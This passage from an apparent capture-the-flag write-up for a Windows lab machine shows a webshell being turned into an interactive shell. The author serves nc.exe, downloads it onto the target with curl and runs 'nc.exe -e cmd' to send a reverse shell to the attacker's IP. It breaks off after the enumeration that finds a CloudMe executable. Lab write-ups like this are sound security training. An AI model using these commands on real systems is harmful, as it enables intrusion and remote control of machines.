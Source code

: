 to upgrade the webshell to a normal shell I will download nc on the target machine.

first I start a nc listener 
```bash
$ rlwrap -cAr nc -lvnp 9001
```

I serve nc.exe in a web server through python
```bash
python3 -m http.server 80 
```

on the target machine I use curl to download the executable and run it 
```bash
C:\xampp\htdocs\gym\upload> curl http://10.10.14.13/nc.exe -O 


C:\xampp\htdocs\gym\upload> dir
 Directory of C:\xampp\htdocs\gym\upload

20/08/2024  20:01    <DIR>          .
20/08/2024  20:01    <DIR>          ..
20/08/2024  19:56                53 kamehameha.php
20/08/2024  20:01            28,160 nc.exe
               2 File(s)         28,213 bytes
               2 Dir(s)   7,236,259,840 bytes free

C:\xampp\htdocs\gym\upload> nc.exe -e cmd 10.10.14.13 9001 
```

and I get a shell as shaun
```bash
$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.198] 49686
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```


### CloudMe buffer overflow

Enumerating the home directory of "shaun" I find a CloudMe_1112.exe file 

```bash
C:\Users\shaun>tree /a /f
tree /a /f
...<snip>...
+---Downloads
|       CloudMe_1112.exe
```
